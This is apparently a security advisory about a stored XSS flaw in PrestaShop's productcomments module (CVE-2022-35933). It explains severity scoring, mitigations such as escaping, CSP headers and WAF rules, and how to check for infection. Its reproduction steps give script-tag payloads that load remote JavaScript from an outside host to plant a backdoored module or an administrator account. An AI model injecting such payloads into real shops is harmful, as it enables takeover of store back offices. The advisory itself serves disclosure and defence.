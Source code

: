 ```yaml
---
layout: post
title: "CWE-79 Danger of stored XSS vulnerability in CMS especially for PrestaShop"
categories: modules
author:
- 202 ecommerce
- TouchWeb.fr
- Friends-Of-Presta.org
meta: "CVE,PrestaShop"
severity: "critical (9.6)"
---
```


As a developer, the severity level is often considered to be low. By underestimating the gravity, we lower our guard against these vulnerabilities. However, some types of vulnerabilities called "stored XSS" are particularly critical when they spread from the front office to the back office.

## Summary

* **Published at**: 2023-02-07
* **Platform**: All CMS. 
* **Weakness**: [CWE-79](https://cwe.mitre.org/data/definitions/79.html)
* **Severity**: critical (9.6)

Vulnerability by design applied on PrestaShop qualified on productcomments module suffering of [CVE-2022-35933](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-35933)

## Description

This publication is a summary of Touchweb's work studying the impact of XSS vulnerabilities in the context of the PrestaShop CMS. 

To highlight the criticality of XSS and give us the means to mitigate their effects, [TouchWeb](https://www.touchweb.fr) conducted its research based on the vulnerability of the [productcomments module](https://github.com/PrestaShop/productcomments/security/advisories/GHSA-prrh-qvhf-x788), which in version 5.0.1 has a stored XSS.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: none
* **User interaction**: required
* **Scope**: changed
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H

### How to know if a XSS is critical ?

That's important to caracterize with strictness XSS. There is too many people which only tag this vulnerability as "XSS" which is dangerous since there will be misunderstood and often under valuation of gravity.

The most dangerous are XSS of type 2 according to their official CWE ([CWE-79](https://cwe.mitre.org/data/definitions/79.html)), meaning Stored-XSS (or persistent XSS) and more specialy those which can be injected from FRONT by guest or assimilated to target BACK.

We will call them: [CWE-79](https://cwe.mitre.org/data/definitions/79.html) / T2-F2B (Type 2 : Stored XSS AND from Front office to Back office).

In summary, if you can inject a XSS from FRONT as guest (or assimilated), which will be stored in database then interprated on BACK, then it's a critical vulnerability which must be scored CVSS 3 : 9.5+/10 since it unlocks design's vulnerabilities (users's administration / modules's administration / any admin's controllers)

For all others XSS including Type 0/1 and Type 2 F2F/B2B/B2F, you can preserve a low to medium gravity score specificaly on PrestaShop. Nevertheless, be warn that on other solutions, XSS of type 1 can be critical (like Wordpress which suffer of a predictible backoffice's link).

### Module presentation

The productcomments module allows, as an anonymous or customer, to post comments associated with products from the front office of the store. Three fields are present:
* title
* Author
* Content

The author field, after a refactoring, is not protected in the sense that the entered value is stored as is in the database and displayed without escaping in the back office.

Example:
* author entered: <em>my name</em>
* result: my name will be displayed in bold in the back office in the moderation table of comments.

From then on, it is possible to inject malicious JavaScript, for example: `<script src='test.js'>`


### Proof of concept

Touchweb provides two benign JavaScript scripts that highlight the vulnerability for PrestaShop 1.7+ (we tested for 1.7.7.8).
* Script A allows injecting a blockwishlist module containing a backdoor without the knowledge of a moderator, i.e. an administrator with rights.
* Script B allows injecting an administrator in the specific case where it is disabled.

**DO NOT TEST IT IN PRODUCTION.**


### How to reproduce?

* We installed PrestaShop 1.7.7.8.
* We installed the [productcomments module zip](https://github.com/PrestaShop/productcomments/releases/download/v5.0.1/productcomments.zip).
* (Optional) To facilitate adding comments without a customer account, we activated the anonymous comments option.
* Enter `<script src="//1j.vc/ps_a.js">` or `<script src="//1j.vc/ps_b.js">` as "author" and complete the other fields.
* Return to the back office on the module configuration page.


### How to best protect yourself?

In the face of a Stored XSS vulnerability targeting the back office, it is impossible to undo all the effects. However, the most dangerous exploits can be limited.

* Systematically escape characters ' " < and > by replacing them with HTML entities and applying strip_tags - Smarty and Twig provide auto-escape filters : 
> Smarty: `{$value.comment|escape:'html':'UTF-8'}`  Twig: `{\{value.comment|e\}}`(without backslashes)
* Limit to the strict minimum the length's value in database - a database field which allow 10 characters (`varchar(10)`) is far less dangerous than a field which allow 40+ characters (use cases which can exploit fragmented XSS payloads are very rare)
* Configure CSP headers (content security policies) by listing  externals domains allowed to load assets (such as js files) or being called in XHR transactions (Ajax).
* If applicable: check against all your frontoffice's uploaders, uploading files which will be served by your server with mime type application/javascript (like every .js natively) must be strictly forbidden as it must be considered as dangerous as PHP files.
* Activate OWASP 941's rules on your WAF (Web application firewall) - be warn that you will probably break your backoffice and you will need to preconfigure some bypasses against these set of rules.


### How to know if I'm already infected by a XSS of type 2 (Stored-XSS)?

You must check every tables within your database which could store guest's input, at least against common XSS injection. 
You can find a list of potential hijacked events on [PrestaShop method Validate::isCleanHtml()](https://github.com/PrestaShop/PrestaShop/blob/develop/classes/Validate.php#L507)

Be warn that you will probably face falses positives alerts which can be time consumming.


### How CMS's core team can help ecosystem about CSP headers ?

If you already setup CSP headers, you already know that it's a plague on our E-Commerce ecosystem with tens externals dependancies (cariers / banks / tracking / remarketing / ...), to setup and more over to maintain over time.

This chaos generate front/back breaks on updates which make it stressfull for all professionnals trying to strength their protection against XSS.

It would be very appreciated if core team constrains plugins developpers to list with strictness their externals dependancies in a normative way which permit a professional generation of CSP headers - not based on chaotic front/back exploration.
